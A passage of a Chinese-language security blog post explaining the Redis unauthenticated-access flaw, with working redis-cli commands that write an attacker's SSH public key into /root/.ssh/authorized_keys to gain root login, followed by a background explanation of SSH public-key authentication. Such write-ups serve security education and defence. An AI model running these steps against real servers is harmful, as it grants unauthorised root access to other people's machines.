 ```yaml
---
title: Redis 未授权访问漏洞利用总结
date: 2017-07-15
author: burlin
source_link: http://www.alloyteam.com/2017/07/12910/
---
```


<!-- {% raw %} - for jekyll -->

# Redis 未授权访问漏洞利用总结

_Redis_ 是一个开源的使用 ANSI C 语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.32.54-1024x441.png)

## **一、**漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **漏洞描述**

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.33.41.png)

## 二、漏洞利用

首先在本地生产公私钥文件：

     
    $ ssh-keygen –t rsa
     

然后将公钥写入 foo.txt 文件

     
    $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     

连接 Redis 写入文件

     
    $ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
    $ redis-cli -h 192.168.1.11
    $ 192.168.1.11:6379> config set dir /root/.ssh/
    OK
    $ 192.168.1.11:6379> config get dir
    1) "dir"
    2) "/root/.ssh"
    $ 192.168.1.11:6379> config set dbfilename "authorized_keys"
    OK
    $ 192.168.1.11:6379> save
    OK
     

这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

```ruby
 
$ ssh –i  id_rsa root@192.168.1.11
 
```

可远程利用自己的私钥登录该服务器。

刚刚我们提到公钥登录和 Redis 持久化存放数据操作，这里简单讲下原理

## 详细讲解 ssh 登录 -- 公钥登录

SSH 提供了公钥登录，可以省去输入密码的步骤。

所谓 "公钥登录"，原理很简单，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。

这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个：

     
    $ ssh-keygen
     

运行上面的命令以后，系统会出现一系列提示，可以一路回车。其中有一个问题是，要不要对私钥设置口令（passphrase），如果担心私钥的安全，这里可以设置一个。

运行结束以后，在 $HOME/.ssh/ 目录下，会新生成两个文件：id_rsa.pub 和 id_rsa。前者是你的公钥，后者是你的私钥。

通常这时再输入下面的命令，将公钥传送到远程主机 host 上面：


<!-- {% endraw %} - for jekyll -->